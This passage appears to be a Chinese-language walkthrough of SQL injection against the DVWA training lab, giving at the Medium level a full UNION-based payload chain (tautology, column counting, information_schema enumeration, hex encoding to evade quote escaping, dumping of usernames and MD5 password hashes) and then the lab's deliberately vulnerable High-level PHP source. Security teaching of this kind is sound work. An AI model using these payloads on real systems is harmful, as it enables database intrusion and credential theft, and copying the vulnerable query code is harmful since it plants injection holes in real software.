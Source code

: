绕过方法很简单，因为此时是数值型注入，不需要单引号，所以直接万能秘钥1 or 1=1 #即可，其他注入都跟Low等级一致，只需要抓包修改，不要用单引号即可。如果要用到单引号，那就用十六进制编码绕过。

#### 解题思路
随便输一个，然后burpsuite抓包并发送到repeater模块，修改id的值为如下，然后发送出去之后，得到response搜索pre可以看到结果：

1、判断是否存在注入，注入是字符型还是数字型。
`1 or 1=1 #`，查询成功，说明是数字型（因为不需要引号）。

2、测试字段数。
`1 order by 2 #`，查询成功
`1 order by 3 #`，查询失败
说明字段数为2。

3、确定显示的顺序和位置。
`1 union select 1,2 #`，查询成功并返回信息可以看出顺序和位置，本靶机都有显示。

4、获取当前数据库。
`1 union select 1, database() #`，查询成功数据库名为dvwa。

5、获取数据库中的表名。
`1 union select 1, group_concat(table_name) from information_schema.tables where table_schema=database() #`，查询成功得到结果为guestbook,users。

6、获取表中的字段名。
`1 union select 1, group_concat(column_name) from information_schema.columns where table_name='users' #`，查询失败，
因为单引号被转义了，用0x7573657273代替users，用十六进制不需要再加单引号的十六进制编码了。
`1 union select 1, group_concat(column_name) from information_schema.columns where table_name=0x7573657273 #`，查询成功得到列名为`avatar,failed_login,first_name,last_login,last_name,password,user,user_id,CURRENT_CONNECTIONS,TOTAL_CONNECTIONS,USER。

7、脱库，爆破数据。
`1 or 1=1 union select group_concat(user_id,first_name,last_name),group_concat(password) from users #`，查询成功得到结果为一系列账号密码等信息，密码为MD5。



## 0x03 High

#### 源码分析
```php
<?php

if( isset( $_SESSION [ 'id' ] ) ) {
    // Get input
    $id = $_SESSION[ 'id' ];

    // Check database
    $query  = "SELECT first_name, last_name FROM users WHERE user_id = '$id' LIMIT 1;";
    $result = mysqli_query($GLOBALS["___mysqli_ston"], $query ) or die( '<pre>Something went wrong.</pre>' );

    // Get results
    while( $row = mysqli_fetch_assoc( $result ) ) {
        // Get values
        $first = $row["first_name"];
        $last  = $row["last_name"];

        // Feedback for end user
        echo "<pre>ID: {$id}<br />First name: {$first}<br />Surname: {$last}</pre>";
    }

    ((is_null($___mysqli_res = mysqli_close($GLOBALS["___mysqli_ston"]))) ? false : $___mysqli_res);        
}

?> 
```
